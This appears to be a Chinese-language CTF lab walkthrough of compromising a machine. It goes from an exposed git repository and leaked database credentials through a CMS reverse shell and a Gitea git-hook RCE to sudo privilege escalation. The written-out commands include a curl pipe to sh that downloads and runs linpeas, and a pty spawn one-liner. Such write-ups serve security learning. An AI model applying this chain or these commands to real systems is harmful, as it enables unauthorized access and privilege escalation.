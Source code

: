 - 先把主機加入/etc/hosts
- 
![](https://hackmd.io/_uploads/ryGl8WTza.png)

- 用nmap掃有開啟甚麼port 有22跟80
- 
![](https://hackmd.io/_uploads/B1ufUZazT.png)

- 再用dirsearch看看有沒有甚麼可用資訊 看起來是有git可以用 還有一個backend/auth的網頁
- 
![](https://hackmd.io/_uploads/rknVUbTf6.png)

![](https://hackmd.io/_uploads/HkRqo-afa.png)


- 用gihacker把源碼下載下來
- 
![](https://hackmd.io/_uploads/rJu1DZ6z6.png)

- 看看裡面有什麼可以用的 首先發現adminer.php 連進去後可以進到一個db的登入頁面
- 
![](https://hackmd.io/_uploads/rJ4ot-aGp.png)

- 於是來去翻看看有沒有關於db的資料，在config裡的database.php找到一個用戶的登入密碼

  
![](https://hackmd.io/_uploads/rJLYFbTGT.png)

- 拿到剛剛的登入頁面進行登入，成功登入資料庫
- 
![](https://hackmd.io/_uploads/SknCKW6MT.png)

- 在select backend_user的地方發現一個叫Frank的user
- 
![](https://hackmd.io/_uploads/BkEyhZazp.png)

- 用hash-identifier查看是甚麼類型的加密問不到
- 
![](https://hackmd.io/_uploads/B1-LpW6fa.png)

- 用chatgpt問後發現是BCrypt加密
- 
![](https://hackmd.io/_uploads/S1bdpZ6Mp.png)

- 此時就可以去透過BCrypt去生成自己的密碼並去把它替換掉
- 
![](https://hackmd.io/_uploads/rkfRpWpGa.png)

![](https://hackmd.io/_uploads/B15eAZaza.png)

- 拿去一開始發現的backend/auth網站登入看看 可以成功登入
- 
![](https://hackmd.io/_uploads/H1ESCbafp.png)

- 進去後有CMS系統，CMS（Content Management System）意思是內容管理系統，掌管網站後台的編輯、新增、儲存和組織功能，因此可以去嘗試在裏頭寫入一些惡意code
- 
![](https://hackmd.io/_uploads/HyPF1BRf6.png)

- 先去查看他的phpinfo裡的disable_function有禁用哪些
- 
![](https://hackmd.io/_uploads/r1ac6r0M6.png)

![](https://hackmd.io/_uploads/BkO66BAMa.png)

- 發現沒有禁用system()，嘗試後發現可以使用 能看到id身分 (為什麼1可以，其他數字不行)
- 
![](https://hackmd.io/_uploads/HJGxArCGT.png)


- 去嘗試寫個reverse shell進去 &記得要改成%26不然會被當參數傳過去 bin/bash -c 意思是告訴bash shell執行-c 後面的命令列，允許在不啟動交互式Shell會話的情況下執行單個命令
- 
![](https://hackmd.io/_uploads/B1c-GICMp.png)

- 成功監聽到
- 
![](https://hackmd.io/_uploads/ByjYMI0z6.png)

- 有一個網址沒掃到 用nmap -A 去掃(全面系統檢測、啟用腳本檢測、掃描等) 發現他有開8585 port
- 
![](https://hackmd.io/_uploads/ByhDBUCGa.png)

- 這個也不錯 這樣可以掃1到9999port
- 
![](https://hackmd.io/_uploads/SyVHUIRfT.png)

- 進去後發現gitea 所以可以去找看看有沒有關於gitea的設定
- 
![](https://hackmd.io/_uploads/rJRqIIRMa.png)

- 用Linpeas找看看有什麼可以使用的地方
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
![](https://hackmd.io/_uploads/r1ErUwCG6.png)

- 有找到一個像是gitea設定黨的東西
- 
![](https://hackmd.io/_uploads/B1x_zuw0GT.png)

- 可是沒有權限 所以要去找看看有沒有別的可以用
- 
![](https://hackmd.io/_uploads/Hk0L9D0M6.png)

- 還有一個bak檔 這有點像是可以用來復原網站的文件
- 
![](https://hackmd.io/_uploads/Bk_55v0Mp.png)

- 有發現一組db的帳號密碼 把它拿去並登入 就有發現frank gitea的帳號密碼 拿去修改並登入gitea
- 
![](https://hackmd.io/_uploads/rkBvivCMa.png)

- 成功登入gitea
- 
![](https://hackmd.io/_uploads/HyRFTwCfp.png)

- 查看這個的版本號是1.12.5 去查看看有沒有相關漏洞 找到一個RCE的[漏洞](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce)
- 
![](https://hackmd.io/_uploads/rJvvI9Czp.png)

- 在githook加上reverse shell
- 
![](https://hackmd.io/_uploads/ryktO5Czp.png)

- 開啟一個監聽
- 
![](https://hackmd.io/_uploads/BkQJF9RzT.png)

- 然後在readme加個空格然後update
- 
![](https://hackmd.io/_uploads/BJCbY5AGp.png)

- 就成功以frank的身分進入了
- 
![](https://hackmd.io/_uploads/H1mLKqAGa.png)

- sudo -l 發現可以透過sqlite3提權
- 
![](https://hackmd.io/_uploads/Sy2dYqRMp.png)

- 在GTFOBins找sqlite3提權方法
- 
![](https://hackmd.io/_uploads/rkj1jq0Ga.png)

- 貼上後沒有說沒有tty 所以幫他加一個 
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
![](https://hackmd.io/_uploads/Hk6WoqAMp.png)

- 加上再試試後發現要密碼
- 
![](https://hackmd.io/_uploads/rk_Sj9Rzp.png)

- 去查一下後發現是sudo 的問題 會被擋掉 所以改成sudo -u#-1來繞過他 就可以成功提權了
- 
![](https://hackmd.io/_uploads/ry7XT9Aza.png)

